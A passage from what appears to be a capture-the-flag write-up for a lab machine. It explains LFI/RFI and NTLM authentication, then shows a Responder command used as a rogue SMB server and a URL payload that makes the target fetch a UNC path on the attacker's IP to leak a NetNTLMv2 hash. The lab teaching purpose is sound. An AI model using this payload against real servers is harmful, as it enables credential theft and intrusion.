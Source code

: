 Now that we know we can access files on the server, an `LFI` (Local File Incluse) vulnerability, perhaps we there is an `RFI` (Remote File Incluse) vulnerability. From our `nmap`, we know that the server hosting this page is a `Windows` machine. So, in order for us to test this RFI vulnerability, we will first need to learn a bit about `NTLM`.

### NTLM
`NTLM` (New Technology Lan Manager) is essentially a network security manager in Windows that provides authentication, integrity, and confidentiality. Noteably, it is a `single sign-on` (SSO) which allows requires users to only be authenticated once. More details of `NTLM` and the authentication process can be found on [Crowdstrike](https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/). Basically, there are tools — such as `Responder` — which allow us to listen in on the NTLM authentication and capture the `NetNTLMv2` hash. If we are able to crack this hash, we can then gain access to the server. Let's give it a go.

### Responder
`Responder` (`git clone https://github.com/lgandx/Responder`), is a tool that can simulate many attacks. In this case, we will use it as a malicious SMB server to capture the `NetNTLMv2` hash. This can be done by:

```shell {linenos=false}
sudo python3 Responder.py -I tun0
```

Now we will have the server interact with this SMB server (hosted on your client IP — mine being `10.10.14.165`) by changing the URL in our browser to:

```{linenos=false}
http://unika.htb/index.php?page=//10.10.14.165/any_file_name
```

Hash acquired!

